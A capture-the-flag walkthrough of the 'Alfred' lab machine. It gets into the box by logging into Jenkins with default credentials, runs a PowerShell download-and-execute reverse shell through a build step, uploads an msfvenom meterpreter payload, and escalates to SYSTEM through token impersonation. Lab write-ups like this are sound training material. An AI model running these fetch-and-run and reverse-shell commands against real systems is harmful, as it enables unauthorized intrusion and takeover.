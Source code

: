 # Alfred

##### Difficulty: [ Easy ]

**Tags:** `Windows`,  `nmap`,  `Jenkins`,  `Powershell`,  `Reverse shell`,  `msfvenom`,  `meterpreter`,  `token impersonation`

---

##### Written: 26/09/2021

##### IP Address: 10.10.113.167

---

Let's start off with a basic **nmap** scan on the target machine. The room states that the machine does not respond to ping (ICMP). Hence, we have to specify the **-Pn** tag in our nmap command. This will disable host discovery, basically skipping the process of pinging the target machine to see if it is alive.

```
sudo nmap -sC -sV -Pn -vv 10.10.113.167
```

**Results:**

<img style="float: left;" src="screenshots/screenshot1.png">

From the results, we can see that there are **3** ports currently open on our target machine:

* Port **80**: HTTP
* Port **3389**
* Port **8080**: HTTP

<br>

Let's first visit the web server on port 80. Navigating to the address, we are brought to the following page:

<img style="float: left;" src="screenshots/screenshot2.png">

After looking through the website and running a **Gobuster** scan, I was unable to find anything of interest. Let's move on to the web server on port 8080.

<img style="float: left;" src="screenshots/screenshot3.png">

Nice! We found a login page to a **Jenkins server**. 

*Jenkins is an open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and continuous delivery (from Wikipedia).*

<br>

Let's go ahead and try using a common default username and password, **admin:admin**.

<img style="float: left;" src="screenshots/screenshot4.png">

Luckily for us, those credentials actually worked. We are able to log into the Jenkins dashboard.

The room then asks us to find a feature of the Jenkins tool that allows us to execute commands on the underlying system. After digging around, I managed to find a configuration page which allows us to input commands that will be executed server-side. To access this page, we click on the current project named **'project'**, then **'Configure'** on the left-hand side, then move down to the **'Build'** section.

<img style="float: left;" src="screenshots/screenshot5.png">

In this field, we are able to input shell commands which will be executed once the project is built. Let's test this out so that we can  better understand how it works. We'll leave the command to be ```whoami```.

<img style="float: left;" src="screenshots/screenshot6.png">

Now, we simply click on **'Build Now'** on the project page, then click on the corresponding build in the **'Build History'** section, then click on the **'Console Output'** to see the results of our command.

<img style="float: left;" src="screenshots/screenshot7.png">

It works! This proves that we can run arbitrary commands on the server. Thus, we can use this to upload a reverse shell script that will grant us initial access into our target machine. Since this is a **Windows** machine, we will be using a Powershell reverse shell script that is part of the **Nishang** framework (https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).

<br>

After downloading the reverse shell script onto our local machine, we then run a Python HTTP server so that we can download the script onto our target.

Next, we input the following command into the **'Build'** section of the project:

```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

The first part of this command will download the reverse shell script onto the target machine. It will then run the script using ```Invoke-PowerShellTcp```.

<img style="float: left;" src="screenshots/screenshot8.png">

Finally, we make sure to have a **netcat** listener up and ready to catch the connection.

<br>

With everything set up, let's go ahead and build the project!

<img style="float: left;" src="screenshots/screenshot9.png">

And we're in :smile:

<img style="float: left;" src="screenshots/screenshot10.png">

**We can find the user flag from user.txt located in the Desktop of the user Bruce.**

---

To make the privilege escalation process easier, let's switch to a **Meterpreter shell** using **Metasploit**.

Firstly, we need to create a Windows-based reverse shell executable which can connect back to our Meterpreter listener. This can be done using **Msfvenom**.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o shell.exe
```

<img style="float: left;" src="screenshots/screenshot11.png">

<br>

With our payload created, we can upload it onto the target machine using the same command method as before.

``` 
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell.exe','shell.exe')"
```

<img style="float: left;" src="screenshots/screenshot12.png">

For good measure, I'll also add in a ```dir``` command to list out the contents of the server directory. This is to confirm that our payload has been successfully uploaded onto the target machine.

<br> 

<img style="float: left;" src="screenshots/screenshot13.png">

After building the project, we can see from the console output that our malicious payload (shell.exe) has been successfully uploaded on the target machine.

Now, we just have to execute it using:

```
.\shell.exe
```

<img style="float: left;" src="screenshots/screenshot14.png">

<br>

Before building, we need to have the appropriate handler up and running in Metasploit. We will be using the **/multi/handler** module.

```
use /multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST x.x.x.x 
set LPORT 4444
run -j
```

With the TCP listener up and running in Metasploit, we can go ahead and build the project.

<img style="float: left;" src="screenshots/screenshot15.png">

We have successfully spawned a Meterpreter shell!

---

Now that we have initial access via a Meterpreter shell, we can use **token impersonation** to gain system access.

*More information about Tokens can be found in the room description.*

<br>

Let's first spawn a shell that we can use. This can be done using the ```shell``` command in Meterpreter.

Next, we use the ```whoami /priv``` command to view all privileges on this account. The results are as follows:

<img style="float: left;" src="screenshots/screenshot16.png">

As we can see, the **SeDebugPrivilege** and **SeImpersonatePrivilege** privileges have been enabled. We can exploit this vulnerability by using the **incognito** module in Metasploit. To load this, we first exit out of the shell. Then we use the command ```load incognito```. 

<img style="float: left;" src="screenshots/screenshot17.png">

<img style="float: left;" src="screenshots/screenshot18.png">

Loading this module gives us more commands that we can run on our target machine. We will be using the ```list_tokens``` command.

```
list_tokens -g
```

*The -g tag lists tokens by unique groupname*

**Results:**

<img style="float: left;" src="screenshots/screenshot19.png">

From the results, we can see that the **BUILTIN\Administrators** delegation token is available. We can then use the ```impersonate_token``` command to impersonate the root user.

```
impersonate_token "BUILTIN\Administrators"
```

**Results:**

<img style="float: left;" src="screenshots/screenshot20.png">

With that, we have successfully impersonated the **root user (NT AUTHORITY\SYSTEM)**.

<br>

However, even though we have a higher privileged token, we may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). 

Hence, we need to make sure that we migrate to a process with the correct **NT AUTHORITY\SYSTEM** permissions. 

According to the room, the safest process to migrate to is the **services.exe** process. Let's migrate to that process now.

Before doing so, we need to find the **PID** of the process. We can use the ```ps``` command.

<img style="float: left;" src="screenshots/screenshot21.png">

The PID of services.exe is **668**. 

<br>

Now we can migrate to the process using the following command:

```
migrate 668
```

<img style="float: left;" src="screenshots/screenshot22.png">

After the migration is complete, we can spawn a higher-privileged shell using the ```shell``` command again. We can then read the **root.txt** file located in **C:\Windows\System32\config** using the ```TYPE``` command.

<img style="float: left;" src="screenshots/screenshot23.png">

**With that, we can obtain the root flag and complete the room.**

